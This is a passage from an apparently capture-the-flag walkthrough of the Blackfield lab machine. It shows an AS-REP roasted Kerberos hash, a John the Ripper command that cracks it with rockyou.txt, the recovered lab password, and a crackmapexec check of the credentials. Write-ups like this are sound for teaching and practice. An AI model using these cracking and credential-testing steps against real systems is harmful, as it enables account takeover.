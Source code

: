Reading the output file we see our confirmed hash for the _support_ user.

![](<../../../.gitbook/assets/image (2057) (1) (1) (1) (1).png>)

```
$krb5asrep$support@BLACKFIELD.LOCAL:e4be5339949e37a4049a10b4a175f5e1$0a4606e9cc22be8bf26959b078d7d94703674c0df20808c3d93b2d09d0bacbaef84cc3b1fefd4384b545ce8d109b503db0e4705e4a94d0b8c681ec8a44cbdda2cadd94ea65c94f4e0ac956743ad3dbc2696cf5ad1fcb4aedc95bc8e5e7686311f7471a3455f59f422a4fa99b2850cdab872f065f680239ddc5007f2f1866d705808262203e50ccca81a32ffa1fbcdab215c29ada83678e4298a8ab92e1bf871ae507963f68453289a702bfa9df8ab2b4b73cc0cf07b95d4fb4c0f765f5b4712ce871eb9bd641e41df7efc7243b5e3cc8e92dcc2778c3b25756ebfbef86741840357839d0926f731a6d64bf335c3f675c237bc650
```

Which, can be cracked wsith `John` against the _rockyou.txt_ password list.

```
sudo john --wordlist=/usr/share/wordlists/rockyou.txt hashes.hash
```

![](<../../../.gitbook/assets/image (2058) (1) (1) (1) (1) (1) (1).png>)

Revealing the users password.

Credentials:

```
support:#00^BlackKnight
```

Checking with `crackmapexec` shows the credentials are valid.

```bash
crackmapexec smb '10.10.10.192' -u 'support' -p '#00^BlackKnight'
```

![](<../../../.gitbook/assets/image (2050) (1) (1) (1) (1) (1) (1).png>)

However, at the point we do not have code execution over SMB. We are not a member of "Remote Management Users" and RDP is not running.
